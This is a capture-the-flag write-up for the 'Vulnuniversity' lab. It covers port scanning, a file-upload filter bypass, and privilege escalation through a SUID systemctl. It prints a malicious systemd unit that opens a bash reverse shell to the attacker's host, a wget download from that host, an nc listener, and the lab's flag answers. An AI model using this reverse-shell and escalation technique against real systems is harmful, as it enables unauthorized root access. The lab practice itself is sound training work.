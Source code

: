 # Reconnaissance

### Scan the box, how many ports are open?
```
# nmap -Pn <machine ip>
...
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http
3333/tcp open  dec-notes
...
```
> *Answer:* 6

### What version of the squid proxy is running on the machine?
```
# nmap -sV <machine ip>
...
3128/tcp open  http-proxy  Squid http proxy 3.5.12
...
```
> *Answer:* 3.5.12

### How many ports will nmap scan if the flag -p-400 was used?
> *Answer:* 400

### Using the nmap flag -n what will it not resolve?
> *Answer:* DNS

### What is the most likely operating system this machine is running?
```
# nmap -sV -O <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* Ubuntu

### What port is the web server running on?
```
# nmap -sV <machine ip>
...
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
...
```
> *Answer:* 3333



# Locating directories

### What is the directory that has an upload form page?
```
# dirsearch -u "http://<machine ip>:3333/"
...
[14:17:17] 301 -  320B  - /internal  ->  http://10.10.117.6:3333/internal/
...
```
> *Answer:* /internal/

# Compromise the webserver

### Try upload a few file types to the server, what common extension seems to be blocked?
> *Answer:* .php

### Run this attack, what extension is allowed?
> *Answer:* .phtml

### What is the name of the user who manages the webserver?
```
$ cat /etc/passwd
...
bill:x:1000:1000:,,,:/home/bill:/bin/bash
```
> *Answer:* bill

### What is the user flag?
```
$ ls -la /home/bill
...
-rw-r--r-- 1 bill bill   33 Jul 31  2019 user.txt
$ cat /home/bill/user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```
> *Answer:* 8bd7992fbe8a6ad22a63361004cfcedb

# Privilege Escalation

### On the system, search for all SUID files. What file stands out?
```
$ find / -perm -u=s -type f | grep -v "Permission denied"
...
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```
> *Answer:* /bin/systemctl

### Become root and get the last flag (/root/root.txt)
```
/var/www/html/root.service
[Unit]
Description=PrivEsc

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ip_address_of_my_attackbox/9999 0>&1'

[Install]
wantedBy=multi-user.target
# systemctl restart apache2
$ cd /tmp
$ wget <kali ip>/root.service
...
2021-09-19 04:09:25 (32.9 MB/s) - 'root.service' saved [175/175]
$ /bin/systemctl enable /tmp/root.service
Created symlink from /etc/systemd/system/root.service to /tmp/root.service.
$ /bin/systemctl start root.service
# nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.241.141] from (UNKNOWN) [10.10.117.6] 57870
bash: cannot set terminal process group (2040): Inappropriate ioctl for device
bash: no job control in this shell
root@vulnuniversity:/# cat /root/root.txt
a58ff8579f0a9270368d33a9966c7fd5
```
> *Answer:* a58ff8579f0a9270368d33a9966c7fd5


